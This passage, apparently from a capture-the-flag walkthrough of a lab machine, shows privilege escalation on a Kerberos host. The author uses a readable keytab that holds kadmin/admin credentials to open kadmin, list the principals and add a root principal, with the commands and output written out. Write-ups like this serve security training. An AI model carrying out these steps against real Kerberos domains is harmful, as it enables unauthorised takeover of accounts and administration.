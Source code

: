 By default, a `krb5.keytab` file would only have the host principle. But another principle, kadmin, has been added here with both the `admin` and `changepw` privileges. That means that anyone who can read this file can act as kadmin, and that user can run the `kadmin` binary which allows them to administer the Kerberos domain. Running it will drop me to a `kadmin` prompt:

```

[admin@srv01 etc]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
kadmin:

```

It’s important to specify that I’m getting auth through the keytab file, and that I want to enter as the kadmin principle with `admin` privs.

From within `kadmin`, I can list the users (principles) in the domain:

```

kadmin:  list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB

```

I can add root as a principle. When prompted, I enter a password (twice), and then root shows up:

```

kadmin:  add_principal root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.
kadmin:  list_principals
K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
root@REALCORP.HTB

```
